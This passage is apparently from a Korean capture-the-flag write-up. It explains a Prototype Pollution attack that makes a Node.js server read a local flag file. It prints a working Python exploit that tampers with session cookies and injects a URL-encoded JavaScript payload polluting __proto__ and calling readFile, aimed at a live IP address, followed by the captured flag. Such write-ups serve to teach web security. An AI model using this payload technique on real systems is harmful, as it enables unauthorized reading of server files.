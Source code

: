 즉, `href`, `protocol` 값 존재 / `auth`, `path` === `undefined` / `hostname`값이  `''`이고 `pathname`이 `/app/flag`가 되도록 Prototype Pollution 취약점을 통해 변조해주면 된다.            
                        
`{ href: 'a', protocol: 'file:', hostname: '', pathname: '/flag.txt' }` 로 설정해주었다.     
          
## Exploit Code             
      
```python
import requests, json
url = "http://3.34.190.217:24916"
# url = "http://localhost:24916"
# hspace{0eabbdb7a226290c9f5a6eae6d72d6c1}

s = requests.session() 
r = requests.post(
        f"{url}/register",
        json={
            "username": "guest",
            "password": "guest"
        })
print(r.text)

r = s.post(
        f"{url}/login",
        json={
            "username": "guest",
            "password": "guest"
        })
cookies = r.cookies.get_dict()
passwd, uid = cookies["passwd"], cookies["uid"]
print(r.text)
print(cookies)

cookies["uid"] = "0b11"
cookies["data"] = """1+1])%3Ba={}%3Ba.__proto__.href='a'%3Ba.__proto__.protocol="file:"%3Ba.__proto__.hostname=""%3Ba.__proto__.pathname="/flag.txt"%3BreadFile({})%3b//"""
r = requests.get(
        f"{url}/checkout",
        cookies=cookies)
print(r.text)
```
       
## FLAG     
hspace{0eabbdb7a226290c9f5a6eae6d72d6c1}     

